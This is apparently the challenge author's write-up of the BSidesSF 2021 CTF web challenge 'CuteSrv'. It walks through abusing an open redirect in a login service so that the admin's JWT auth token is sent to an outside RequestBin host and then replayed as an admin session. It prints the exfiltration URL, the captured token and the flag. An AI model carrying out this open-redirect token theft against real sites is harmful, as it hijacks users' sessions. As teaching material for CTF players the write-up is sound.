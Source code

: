 ```yaml
---
layout: post
title: "BSidesSF 2021 CTF: CuteSrv (Author Writeup)"
category: Security
date: 2021-03-08
tags:
  - CTF
  - BSidesSF
---
```


I authored the BSidesSF 2021 CTF Challenge "CuteSrv", which is a service to
display cute pictures.  The description from the scoreboard:

> Last year was pretty tough for all of us. I built this service of cute photos
> to help cheer you up. We do moderate for cuteness, so no inappropriate photos
> please!

Like my other write-ups, I'll do this from the perspective of a player playing
through and try not to assume internal knowledge.

Visiting the service, we find a bunch of cute pictures:

![CuteSrv](/img/bsidessf/cutesrv.png)

Since we just see links for Login and Submit at the top, it's worth checking
those out.  Submit redirects us to the login page, so let's login.  We
explicitly see that it's redirecting us to a "LoginSVC" login page to do the
login.  This is on a different domain than the CuteSrv.

On this page, you can login or register.  My first instinct would be to check
for SQL injection, but even with SQLmap, I'm not finding anything.  We create an
account and are redirected back to CuteSrv.  Now we only have the Submit link,
which prompts us for a URL to submit.

![CuteSrv Submit Page](/img/bsidessf/cutesrv_submit.png)

Since it mentions that all submissions will be reviewed, I assume the admin will
see a page with either the URL or the maybe the URL will be placed in an image
tag for them to preview.  In any case, this seems like a likely XSS vector, so
we can try some payloads.  Unfortunately, none of those payloads get us
anything.

I start looking at the source for the webpages to see anything I've missed.  I
notice a hidden link to `/flag.txt`, so I figure I'll just check that, though it
seems too obvious for a challenge that's not a **101**.  As expected, I just get
`Not Authorized` here.

Let's see if we can verify that the admin is seeing our submissions.  We can use
a [RequestBin](https://requestbin.com/) (or host something ourselves) and just
use that URL for the image to see if we can get any request at all.  We submit
our RequestBin URL and almost immediately see a request that tells us the admin
visited.

Maybe there's a vulnerability in the login page.  If nothing else, it's pretty
unusual for a CTF challenge to use two separate domains and services.  If we
logout and go to login again, and follow the flow carefully, we'll see a set of
requests:

```
- GET https://loginsvc-0af88b56.challenges.bsidessf.net/check?continue=https%3A%2F%2Fcutesrv-0186d981.challenges.bsidessf.net%2Fsetsid
- GET https://loginsvc-0af88b56.challenges.bsidessf.net/login?continue=https%3A%2F%2Fcutesrv-0186d981.challenges.bsidessf.net%2Fsetsid
- (Perform login)
- POST https://loginsvc-0af88b56.challenges.bsidessf.net/login
- GET https://loginsvc-0af88b56.challenges.bsidessf.net/check?continue=https%3A%2F%2Fcutesrv-0186d981.challenges.bsidessf.net%2Fsetsid
- GET https://cutesrv-0186d981.challenges.bsidessf.net/setsid?authtok=eyJhbGciOiJFUzI1NiIsInR5cCI6IkpXVCJ9.eyJhdWQiOiJhdXRodG9rIiwiZXhwIjoxNjE3OTQ5MDIzLCJpYXQiOjE2MTUyNzA2MjMsImlzcyI6ImxvZ2luc3ZjIiwibmJmIjoxNjE1MjcwNjIzLCJzdWIiOiJmb28ifQ.d1Cu3aXU6fUOgc0W4p3E3geViK1faqsKusWzHKOG-8htQJEzv5h-IgX5q6ZJs4LhaeK4r2Ngmb18oaw2LY7OIA
- GET https://cutesrv-0186d981.challenges.bsidessf.net/
```

We notice that the authentication token gets passed as a GET parameter from one
service to another.  If you're familiar with it, you may recognize it as a
[JWT](https://jwt.io/).  Maybe we can craft our own token for the admin user, as
sometimes [JWT implementations have
vulnerabilities](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/).
Unfortunately, every token I attempt to craft is rejected by the service and
results in me being in a logged-out state.

If we're already logged in, the `/check` endpoint on LoginSVC automatically
redirects us to our continue URL.  I quickly try some variations on the URL
provided by CuteSRV and notice that LoginSVC *seems* to accept any URL I throw
at it.  Perhaps I can make use of this [open
redirect](https://cwe.mitre.org/data/definitions/601.html) somehow.  If I can
get the admin to visit my server from the login service, maybe I can steal the
`authtok` parameter and use it.  I try submitting the `/check` URL with a
`continue` parameter that points to my RequestBin (i.e., `https://loginsvc-0af88b56.challenges.bsidessf.net/check?continue=https://enwc1bz9v7lve.x.pipedream.net/`) in the image
submission form.

Almost immediately, there's a request to my RequestBin with a different
`authtok` as a query parameter!  I copy the `authtok` and use it with the
`/setsid` path on CuteSRV:

```
https://cutesrv-0186d981.challenges.bsidessf.net/setsid?authtok=eyJhbGciOiJFUzI1NiIsInR5cCI6IkpXVCJ9.eyJhdWQiOiJhdXRodG9rIiwiZXhwIjoxNjE3OTUwMDIxLCJpYXQiOjE2MTUyNzE2MjEsImlzcyI6ImxvZ2luc3ZjIiwibmJmIjoxNjE1MjcxNjIxLCJzdWIiOiJhZG1pbiJ9.OulATR3pPROVZh9BCfwEbHYHceLAnPXxL3g9Q6T2AfTIP8qTZidqdpvPLrT8HwkYyyZwgyhdkoQkN2H--FXW0Q
```

It appears to give me a valid session, so I try the `/flag.txt` endpoint again
and am rewarded:

```
FLAG: CTF{i_hope_you_made_it_through_2020_okay}
```
